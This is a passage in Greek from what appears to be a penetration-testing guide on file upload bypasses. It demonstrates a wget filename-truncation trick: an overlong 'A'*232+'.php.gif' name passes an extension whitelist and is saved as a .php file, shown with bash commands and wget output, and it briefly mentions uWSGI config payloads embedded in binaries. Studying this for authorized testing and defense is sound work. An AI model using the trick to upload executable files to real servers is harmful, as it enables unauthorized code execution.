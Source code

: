 Είναι κρίσιμο να κατανοήσουμε τη χαλαρή φύση της ανάλυσης του αρχείου ρυθμίσεων του uWSGI. Συγκεκριμένα, το συζητηθέν payload μπορεί να εισαχθεί σε ένα δυαδικό αρχείο (όπως μια εικόνα ή PDF), διευρύνοντας περαιτέρω το πεδίο της πιθανής εκμετάλλευσης.

## **wget File Upload/SSRF Trick**

Σε ορισμένες περιπτώσεις μπορεί να διαπιστώσετε ότι ένας διακομιστής χρησιμοποιεί **`wget`** για να **κατεβάσει αρχεία** και μπορείτε να **υποδείξετε** τη **διεύθυνση URL**. Σε αυτές τις περιπτώσεις, ο κώδικας μπορεί να ελέγχει ότι η επέκταση των κατεβασμένων αρχείων είναι μέσα σε μια λευκή λίστα για να διασφαλίσει ότι μόνο επιτρεπόμενα αρχεία θα κατεβούν. Ωστόσο, **αυτός ο έλεγχος μπορεί να παρακαμφθεί.**\
Το **μέγιστο** μήκος ενός **ονόματος αρχείου** σε **linux** είναι **255**, ωστόσο, **wget** κόβει τα ονόματα αρχείων σε **236** χαρακτήρες. Μπορείτε να **κατεβάσετε ένα αρχείο με όνομα "A"\*232+".php"+".gif"**, αυτό το όνομα αρχείου θα **παρακάμψει** τον **έλεγχο** (καθώς σε αυτό το παράδειγμα **".gif"** είναι μια **έγκυρη** επέκταση) αλλά το `wget` θα **μετονομάσει** το αρχείο σε **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
Σημειώστε ότι **μια άλλη επιλογή** που μπορεί να σκέφτεστε για να παρακάμψετε αυτόν τον έλεγχο είναι να κάνετε τον **HTTP server να ανακατευθύνει σε ένα διαφορετικό αρχείο**, έτσι ώστε η αρχική διεύθυνση URL να παρακάμψει τον έλεγχο και στη συνέχεια το wget να κατεβάσει το ανακατευθυνόμενο αρχείο με το νέο όνομα. Αυτό **δεν θα λειτουργήσει** **εκτός αν** το wget χρησιμοποιείται με την **παράμετρο** `--trust-server-names` επειδή **το wget θα κατεβάσει τη σελίδα ανακατεύθυνσης με το όνομα του αρχείου που υποδεικνύεται στην αρχική διεύθυνση URL**.
